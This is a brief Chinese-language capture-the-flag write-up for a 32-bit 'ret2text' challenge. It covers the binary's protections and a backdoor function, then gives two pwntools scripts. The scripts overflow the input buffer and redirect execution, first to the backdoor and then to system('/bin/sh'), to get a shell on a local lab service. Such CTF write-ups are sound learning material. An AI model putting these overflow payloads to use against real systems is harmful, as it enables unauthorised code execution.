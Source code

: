 # ret2text 32

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了32位~~

## 逆向

观察vuln函数里面输入一个数，并其后从输入中获取对应字节数~~%d个？随便打~~  
观察.text段，存在`b4ckdoor`函数，但是执行echo hi？？

显然，在第一步的exp中，只是跳转到该函数是没用的  
~~进一步探索，发现程序中system读取ebx寄存器中的内容  
而程序中存在`pop ebx; ret;`和`/bin/sh`~~  
先后压栈`system()`和`/bin/sh`即可  
再次发起exp

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x0804928c)) # Addr of ba4kdoor
sh.interactive()
```

成功打印出`hi!`！但是没有flag

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x080492a9) + p32(0x0804c02c)) # Addr of system & /bin/sh
sh.interactive()
```

> 做到这里的时候是0:09，网站打不开了，不会还有宵禁吧？明日再战

再次运行，`cat flag`，得到flag

Done.
